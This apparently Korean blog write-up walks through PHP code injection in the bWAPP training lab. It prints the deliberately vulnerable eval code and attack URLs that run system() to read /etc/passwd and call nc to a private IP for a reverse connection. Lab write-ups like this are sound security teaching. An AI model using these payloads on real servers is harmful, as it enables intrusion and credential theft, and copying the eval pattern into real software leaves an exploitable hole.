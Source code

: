 ```yaml
---
layout: single
title: (bWAPP)PHP Code Injection
categories: Web-vuln
tag: [php injection, php, injection, bwapp, bee box, php code injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직

```php
<?php

if(isset($_REQUEST["message"]))
{
    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {
?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
<?php
    }
    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
<?php
    }
}s
?>
```
## Level - Low
![그림 1-1](/assets/image/bwapp/php-code-injection/image.png)

```PHP
<p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
```

- 해당 문제에 주어지는 LOW Level 소스코드는 위와 같다.
- eval 함수를 사용하여 사용자의 입력값을 실행하도록 되어 있다.
> eval() 함수란 사용자의 입력값으로 들어온 문자열을 해당 Server Side Script 의 코드로 인식하여 실행하는 함수이다. 이 때 입력값으로 들어온 문자열이 시스템 명령 함수가 존재할 경우 시스템 함수를 실행시킨다.

- 해당 LOW Level 에서 아무런 사용자 입력 값에 대한 유효성 검살를 하지 않고 바로 eval() 함수를 사용한다. 

```
/bWAPP/phpi.php?message=hello
```

![그림 1-2](/assets/image/bwapp/php-code-injection/image2.png)
- 입력값이 echo 명령과 합쳐지면 페이지에 출력되는것을 확인했다. 

```
/bWAPP/phpi.php?message=system(%27head%20-3%20/etc/passwd%27)
```

- 위와 같이 php system 명령어를 인자로 넘겨줬다.
![그림 1-3](/assets/image/bwapp/php-code-injection/image3.png)
- system() 명령이 성공적으로 실행된 걸 확인할 수 있다.
- 이를통해 Reverse Shell Connection또한 가능하다.

```
/bWAPP/phpi.php?message=system(%27nc%20192.168.146.137%205252%27)
```

![그림 1-4](/assets/image/bwapp/php-code-injection/image4.png)
- 성공적으로 Reverse Connection이 맺어진 걸 볼 수 있다.

## Level - Medium & High

```php
<?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?>
```

- LOW Level 을 제외한 단계에서는 htmlspcialchars() 함수를 사용하여 메타문자 입력을 금지하고 있다.

- 이를 통해 LOW Level 과 같이 치명적인 공격은 불가능 하며, php의 경우 phpinfo() 를 통해 사용중인 php 정보 확인과 같은 취약점 판별은 가능하다

```
/bWAPP/phpi.php?message=phpinfo()
```

![그림 1-5](/assets/image/bwapp/php-code-injection/image5.png)
